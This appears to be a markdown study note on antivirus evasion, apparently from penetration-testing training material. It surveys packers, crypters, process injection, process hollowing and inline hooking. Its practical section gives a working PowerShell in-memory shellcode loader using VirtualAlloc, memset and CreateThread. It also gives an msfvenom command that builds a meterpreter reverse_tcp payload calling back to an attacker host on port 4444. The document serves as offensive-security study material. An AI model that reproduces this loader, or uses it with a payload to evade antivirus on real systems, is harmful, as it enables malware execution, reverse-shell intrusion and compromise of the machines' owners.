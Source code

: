 # AV Evasion

## On-Disk Evasion
- Packers

Packers generate an executable that is smaller than the original, and it has the same functionalities. The result file has a new signature and as a result, can effectively bypass older and more simplistic AV scanners. The use of **UPX** and other popular packers alone is not sufficient for evasion of modern AV scanners

- Obfuscators

Obfuscators reorganize and mutate code in a way that makes it more difficult to reverse-engineer. This includes replacing instructions with semantically equivalent ones, inserting irrelevant instructions or “dead code”,412 splitting or reordering functions, and so on.

- Crypters

Crypters alters the execuatble code in a cryptographic way, adding a decrypting stub that restores the original code upon execution. This decryption happens in-memory, leaving only the enctypted code on-disk. Encryption is one of the most effective AV evasion technique.

- Software protectors

Anti-reversing, anti-debugging, virtual machine emulation detection... Software protectors were designed for legitimate purposes but can also be used to bypass AV detection.
**The Enigma Protector** is a free tool for protecting our scripts.

## In-Memory Evasion
In-Memory Injections, also known as PE injection is a popular technique used to bypass AVs products. This technique focuses on the manipulation of volatile memory. One of the benefits of this technique is that does not override any files to disk, which is one of the main areas of focus for most AV products.

- Remote Process Memory Injection

This technique attemps to inject the payload into another valid PE that is not malicious. Yhe most common method of doing this is by leveraging a set of Windows APIs.
First, we would use the *OpenProcess* function to obtain a valid *HANDLE* to a target process that we have permissions to access. After obtaining the*HANDLE*, we would 
allocate memory in the context of that process by calling Windows API such as *VirtualAllocEx*. Once the memory has been allocated in the remote process, we would copy the malicious payload to the newly
allocated memory using *WriteProcessMemory*. After the payload has been successfully copied, it is usually executed in memory in a separate thread using the *CreateRemoteThread* API.

- Reflective DLL Injection

Unlike regular DLL injection, which implies loading a malicious DLL from disk using the *LoadLibrary* API, this technique attemps to load a DLL stored by the 
atacker in the process memory.

- Process Hollowing

When using process hollowing to bypass AV software, attackers first launch a non-malicious process in a suspended state. Once launched, the image of the process is removed from
memory and replaced with a malicious executable image. Finally, the process is then resumed and malicious code is executed instead of the legitimate process.

- Inline hooking

As the name suggests, this technique involves modifying memory and introducing a hook (instructions that redirect the code execution) into a function to point the execution flow 
to out malicious code. Upon executing our malicious code, the flow will return back to the modified function and resume rexecution, appearing as if only the original code had 
executed.

## Practical Example
We will use **Avira AV** in our Windows vitmim machine.

- PowerShell In-Memory Injection
Depending on our target environment, we might be able to bypass AV products with the help of PowerShell

A very powerful feature of PowerShell is its ability to interact with the Windows API. This allows us to implement in-memory injection process in a PowerShell script. One of the 
main benefits of executing a script rather than PE is the fact that is not difficult for AV manufacters to determine if the script is malicious or not as it's run inside an interpreter
and the script itself isn't executable code. 

Furthermore, even if the script is marked as malicious, it can easily be altered. AV software will often look at variable names, comments, and logic, all of which can be changed
without the nedd to re-compile anything.

The script that performs in-memory injection:
```bash
$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocat
ionType, uint flProtect);
[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, 
IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';
$winFunc = 
 Add-Type -memberDefinition $code -Name "Win32" -namespace Win32Functions -passthru;
[Byte[]];
[Byte[]]$sc = <place your shellcode here>;
$size = 0x1000;
if ($sc.Length -gt 0x1000) {$size = $sc.Length};
$x = $winFunc::VirtualAlloc(0,$size,0x3000,0x40);
for ($i=0;$i -le ($sc.Length-1);$i++) {$winFunc::memset([IntPtr]($x.ToInt32()+$i), $sc
[$i], 1)};
$winFunc::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };
```
The script starts by importing *VirtualAlloc428* and *CreateThread429* from kernel32.dll as well as 
memset from **msvcrt.dll**. These functions will allow us to allocate memory, create an execution 
thread, and write arbitrary data to the allocated memory, respectively. Once again, notice that we 
are allocating the memory and executing a new thread in the current process (powershell.exe), 
rather than a remote one. The script then allocates a block of memory using *VirtualAlloc*, takes each byte of the payload 
stored in the *$sc* byte array, and writes it to our newly allocated memory block using *memset*. As a final step, our in-memory written 
payload is executed in a separate thread using *CreateThread*.

Missing from the script is the payload of our choice, which can be generated using **msfvenom**.
```bash
 msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.11.0.4 LPORT=4444 -f powershell
 ```
 
 ## Tools
 
 - shellter



